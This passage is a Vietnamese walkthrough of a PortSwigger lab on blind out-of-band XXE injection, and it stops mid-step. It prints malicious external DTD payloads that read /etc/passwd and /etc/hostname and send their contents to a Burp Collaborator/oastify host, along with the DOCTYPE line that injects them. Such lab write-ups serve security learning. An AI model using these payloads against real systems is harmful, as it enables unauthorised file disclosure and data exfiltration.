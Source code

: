 #### Ví dụ: Lab5 XXE injection portswigger
Ở ví dụ này thì mình dùng Blind XXE out-of-band để đọc một file bất kỳ trên sever

Trước tiên ta cần tìm hiểu về cách dùng kỹ thuật out-of-band để đọc file bất kỳ trên sever, các bước thực hiện sẽ bao gồm
1. Khai báo một file DTD có nhiệm vụ là đọc 1 file và gửi nội dung file đó cho Burp Collaborator
2. Thực hiện XXE out-of-band đến file DTD trên

File DTD sẽ được khai báo như sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
> Trong đó: 
>>1. entity ``file`` được dùng để đọc file bất kỳ
>>2. entity ``eval`` sẽ chứa một khai báo động đến ``exfil``
>>3. ``exif`` sẽ gửi request đến Burp Collaborator kèm theo nội dung của file
>>3. Ngoài ra thì payload trên sử dụng ``%`` để khai báo entity. Cách khai báo này gọi là ``Parameterized entity``, nó tương tự như khai báo thông thường nhưng sẽ được dùng để bypass khi khai báo kiểu bình thường không hoạt động, và parameter entity thì chỉ có hiệu lực khi gọi tới bên trong ``<!DOCTYPE ....>`` hay là bên trong khai báo DTD
>>4. Phần mã hex ``&#x25`` là mã hex của ký tự ``%``, ta dùng mã hex đơn giản là để bypass thôi

Bước tiếp theo trong tài liệu XML của web thì ta inject thêm đoạn sau để thực hiện SSRF tới file DTD của ta:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

Quay trở lại với Labs, thì vẫn là trang check stock quen thuộc và đề bài yêu cầu ta đọc file /etc/hostname.

Đầu tiên ta khai báo file DTD với nội dung sau:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://8z8oco3dqgxm3ziloo75ta2xxo3ir7.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
Tại tài liệu XML của web ta thực hiện SSRF tới file DTD trên:
